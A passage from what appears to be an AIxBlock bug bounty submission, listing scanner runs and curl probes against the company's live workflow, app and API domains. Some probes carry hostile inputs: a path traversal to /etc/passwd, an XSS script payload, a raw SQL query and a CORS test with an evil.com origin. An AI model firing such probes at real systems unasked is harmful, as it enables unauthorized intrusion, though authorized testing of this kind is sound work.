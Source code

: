 **Expected Response Time**: 48 hours (per bug bounty program)
**Expected Validation Time**: 7 business days (per bug bounty program)

---

**Status**: ✅ **COMPLETE SUBMISSION READY FOR VALIDATION**
```

---

## **🚀 COMPREHENSIVE PENETRATION TESTING EXECUTION**

### **Multi-Tool Security Assessment**
```bash
# 1. Static Code Analysis
semgrep --config=auto --json --output=semgrep-results.json .
bandit -r . -f json -o bandit-results.json
retire --outputformat json --outputpath retire-results.json

# 2. Dynamic Web Application Testing
wapiti -u https://workflow.aixblock.io -f json -o wapiti-results.json
wapiti -u https://app.aixblock.io -f json -o wapiti-app-results.json
wapiti -u https://api.aixblock.io -f json -o wapiti-api-results.json

# 3. Secrets Detection
trufflehog filesystem . --json --output=trufflehog-results.json
grep -r "password\|secret\|key\|token" . --include="*.py" --include="*.js" --include="*.ts"

# 4. Authentication & Authorization Testing
curl -s "https://workflow.aixblock.io/api/v1/flags" -H "Authorization: Bearer invalid-token" -v
curl -s "https://workflow.aixblock.io/api/v1/authn/saml/acs" -v
curl -s "https://workflow.aixblock.io/api/v1/webhooks" -v

# 5. Information Disclosure Testing
curl -s "https://workflow.aixblock.io/api/v1/flags" -v > config_disclosure_poc.json
curl -s "https://workflow.aixblock.io/nonexistent" -v
curl -s "https://workflow.aixblock.io/api/v1/version" -v

# 6. Input Validation Testing
curl -s "https://workflow.aixblock.io/api/v1/query" -d "query=SELECT * FROM users" -v
curl -s "https://app.aixblock.io/search" -d "q=<script>alert('xss')</script>" -v
curl -s "https://workflow.aixblock.io/api/v1/files/../../../etc/passwd" -v

# 7. CORS and Security Headers Testing
curl -s "https://workflow.aixblock.io/api/v1/flags" -H "Origin: https://evil.com" -v
curl -s "https://workflow.aixblock.io/api/v1/flags" -I

# 8. AIxBlock-Specific Endpoint Testing
curl -s "https://workflow.aixblock.io/api/v1/flags" -v
curl -s "https://workflow.aixblock.io/api/v1/authn/saml/acs" -v
curl -s "https://workflow.aixblock.io/api/v1/webhooks" -v
curl -s "https://api.aixblock.io/api/v1/models" -v
curl -s "https://app.aixblock.io/api/v1/user" -v
```
